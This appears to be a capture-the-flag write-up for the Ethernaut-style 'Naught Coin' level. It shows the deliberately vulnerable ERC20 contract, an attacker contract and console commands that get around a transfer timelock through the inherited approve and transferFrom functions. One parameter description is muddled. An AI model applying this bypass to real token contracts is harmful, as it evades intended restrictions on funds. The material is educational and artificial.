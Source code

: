 # 15 Naught Coin

```
NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer 
them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? 
Complete this level by getting your token balance to 0.

  Things that might help

The ERC20 Spec
The OpenZeppelin codebase
```
####  code
```

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import 'openzeppelin-contracts-08/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = block.timestamp + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player) 
  ERC20('NaughtCoin', '0x0') {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(block.timestamp > timeLock);
      _;
    } else {
     _;
    }
  } 
} 

```

#### Start 


### (1) `Getting our token balance to 0 `


You must know about the ERC20 Token and  Solidity and object oriented programming

I can't tell you all. You have to study by yourself from this link. 

ERC20 Token  -> https://github.com/ethereum/EIPs/blob/master/EIPS/eip-20.md

Solidity OOP -> https://medium.com/coinmonks/solidity-and-object-oriented-programming-oop-191f8deb8316

If you already know, let's get started.

.

.

.

Looking at the code, You can see  the contract NaughtCoin  Inheritance ERC20 from openzeppelin contracts

This means that the contract inherits all ERC20 openzeppelin functions.

Our goal is to make our blance = 0

You will see the code that prevents the function `transfer()` by `modifier lockTokens()` 

It meant  you cannot transfer money through this function.

The code shows just that, but keep in mind that you've inherited all the ERC20 openzeppelin functions, 

so you'll have the `transferFrom()` function available

We will use this function `transferFrom()` to transfer token by  approve the amount of token first. to be able to use

let's start

.

.

.

We need to write a contract

#### This is the code I used 
```

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface NaughtCoin  {
	function transferFrom(address from, address to,  uint256 amount) external  returns (bool) ;
  function allowance(address owner, address spender) external view  returns (uint256);
}

contract atkNaughtCoin {

  NaughtCoin public target;

  constructor(address _target ) {

    target = NaughtCoin(_target);

  }


  function callTransferForm(address _from, address _to, uint256 _amount)  external  { 
        target.transferFrom(_from,_to,_amount);

    }

  function callAllowance(address _owner ) external view returns(uint256){
      return  target.allowance(_owner,address(this));
    }
}

```


#### Open Developer Tools (F12)

- (1)  We will  check the total number of our coins first. type
  ```
  let t = await contract.balanceOf('our address')
  t.toString()
  ```
  you will see a message  `'1000000000000000000000000'`  that's the number of our coins in wei

- (2) We will approve the total amount of our coins for contract `atkNaughtCoin`

  type `await contract.approve('address contract atkNaughtCoin','1000000000000000000000000')` and confirm transaction

- (3) Next, we will call `function callTransferForm(address _from, address _to, uint256 _amount)  external` and put input 

    `_from` is the address we want to transfer coins to 
    
    `_to` is any address that we want to send coins to 
    
    `_amount` is the amount of coins we want to transfer.

   by call via remix and confirm transaction

Click button Submit instance and confirm transaction 

# !!! we passed !!!




